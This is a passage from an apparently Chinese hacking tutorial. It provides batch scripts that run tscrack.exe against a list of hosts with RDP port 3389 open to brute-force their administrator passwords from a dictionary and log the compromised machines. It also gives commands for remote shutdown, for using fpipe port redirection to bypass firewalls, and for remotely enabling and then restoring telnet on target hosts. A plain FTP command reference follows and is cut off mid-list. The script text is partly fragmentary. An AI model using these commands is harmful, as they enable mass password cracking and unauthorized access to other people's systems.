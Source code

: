 @if not exist ipcscan.txt goto noscan 
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i 
nscan 
@echo 3389.txt no find or scan faild 
(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt) 
3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat 
@if not exist tscrack.exe goto noscan 
@tscrack %1 -l administrator -w pass.dic >>rouji.txt 
:noscan 
@echo tscrack.exe no find or scan faild 
(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了) 
hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。 
5、其它：
Shutdown.exe 
Shutdown \\IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。） 
fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙） 
fpipe -l 80 -s 1029 -r 80 www.sina.com.cn 当有人扫锚你的80端口时，他扫到的结果会完全是www.sina.com.cn的主机信息 
Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。 
OpenTelnet.exe (远程开启telnet工具) 
opentelnet.exe \\IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet \\ip 连接上对方。
NTLM认证方式：０：不使用NTLM身份验证；１：先尝试NTLM身份验证，如果失败，再使用用户名和密码；２：只使用NTLM身份验证。
ResumeTelnet.exe (OpenTelnet附带的另一个工具) 
resumetelnet.exe \\IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。 
6、FTP命令详解：
FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
FTP的命令行格式为： 
ftp -v -d -i -n -g [主机名] ，其中
-v 显示远程服务器的所有响应信息；
-n 限制ftp的自动登录，即不使用；.n etrc文件；
-d 使用调试方式；
-g 取消全局文件名。

FTP使用的内部命令如下(中括号表示可选项):
1.![cmd[args]]：在本地机中执行交互shell，exit回到ftp环境，如：!ls*.zip 
2.$ macro-ame[args]： 执行宏定义macro-name。
3.account[password]： 提供登录远程系统成功后访问系统资源所需的补充口令。 
4.append local-file[remote-file]：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
5.ascii：使用ascii类型传输方式。
6.bell：每个命令执行完毕后计算机响铃一次。
7.bin：使用二进制文件传输方式。
8.bye：退出ftp会话过程。
9.case：在使用mget时，将远程主机文件名中的大写转为小写字母。 
10.cd remote-dir：进入远程主机目录。
11.cdup：进入远程主机目录的父目录。 
12.chmod mode file-name：将远程主机文件file-name的存取方式设置为mode，如：chmod 777 a.out。
13.close：中断与远程服务器的ftp会话(与open对应)。 
14.cr：使用asscii方式传输文件时，将回车换行转换为回行。
15.delete remote-file：删除远程主机文件。 
16.debug[debug-value]：设置调试方式， 显示发送至远程主机的每条命令，如：deb up 3，若设为0，表示取消debug。
17.dir[remote-dir][local-file]：显示远程主机目录，并将结果存入本地文件。 
18.disconnection：同close。
19.form format：将文件传输方式设置为format，缺省为file方式。 
20.get remote-file[local-file]： 将远程主机的文件remote-file传至本地硬盘的local-file。
21.glob：设置mdelete，mget，mput的文件名扩展，缺省时不扩展文件名，同命令行的-g参数。 
22.hash：每传输1024字节，显示一个hash符号(#)。
23.help[cmd]：显示ftp内部命令cmd的帮助信息，如：help get24.idle[seconds]：将远程服务器的休眠计时器设为[seconds]秒。
25.image：设置二进制传输方式(同binary)。 
26.lcd[dir]：将本地工作目录切换至dir。
27.ls[remote-dir][local-file]：显示远程目录remote-dir， 并存入本地文件local-file。 
28.macdef macro-name：定义一个宏，遇到macdef下的空行时，宏定义结束。
29.mdelete[remote-file]：删除远程主机文件。 